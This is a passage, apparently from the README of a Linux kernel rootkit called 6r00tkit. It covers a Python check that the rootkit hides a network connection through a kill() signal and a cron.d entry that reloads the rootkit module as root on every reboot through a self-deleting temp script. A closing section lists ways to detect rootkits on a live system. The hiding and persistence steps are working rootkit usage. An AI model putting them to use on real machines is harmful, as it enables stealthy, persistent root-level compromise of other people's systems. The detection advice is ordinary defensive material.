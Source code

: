 ```python
########################################

s = socket()
s.connect(("1.1.1.1", 53))
if not system("grep 01010101:35 /proc/net/tcp"):
    print("Connection found")

try:kill(53, 0xbeef) # i use the default signal, you should use your own signal if added as parameters on load
except:pass

if system("grep 01010101:35 /proc/net/tcp"):
    print("Connection not found")

s.close()
```

You cannot use `mkdir` command in bash or other shell script because the `mkdir` process will get the root permissions and not the shell process used to start the script.

## Persistence

You can reload the kernel module on reboot with a single cronjob, write the following content in the filename `/etc/cron.d/6r00tkit`:

```cron
@reboot root /bin/bash -c 'echo "/bin/sleep 10; /sbin/insmod /path/to/6r00tkit.ko" > /tmp/.placeholder; /bin/bash /tmp/.placeholder; /bin/rm -f /tmp/.placeholder'
```

## Rootkit detection

### Detection on live system

There is no way to detect a good rootkit on live system, but there is some techniques to try to detect it:

 - Analyze hidden processes
     1. Download and start `GetHiddenProcesses` program with root permissions
     2. Analyze output: there are many processes hidden by Operating System you should defined for each hidden process if it's malicious or not
     3. **Attackers should be active to detect it with this method**
     4. **Rootkit can change a PID to be undetectable**
 - Detect hidden connections
     1. Download `DetectHiddenConnections`
     2. Start the executable with root permissions
     3. Check all outputs, some network flux will be closed by kernel faster than checks, there are many false positives on UDP and few false positives on TCP
     4. **Attackers should be active to detect it with this method**
 - Detect error messages loading rootkit multiple times
     1. The `dmesg` command prints errors when kernel module load fails, a bad persistence can try to load rootkit regularly that cause errors (a kernel module cannot be loaded multiple times)
     2. **Rootkit can block or remove specific logs**
 - Detect anomalies
     1. Analyse logs to find anomalies:
         - logged in user not visible with `who`
         - `insmod` commands
         - firewall logs with unused ports or unknown IP addresses
         - syscall logs ([sys_finit_module](https://github.com/torvalds/linux/blob/453f5db0619e2ad64076aab16ff5a00e0f7c53a2/arch/x86/entry/syscalls/syscall_64.tbl#L324C26-L324C42), [sys_init_module](https://github.com/torvalds/linux/blob/453f5db0619e2ad64076aab16ff5a00e0f7c53a2/arch/x86/entry/syscalls/syscall_64.tbl#L186C25-L186C40))
         - processes creation invisible in `/proc`
         - ...
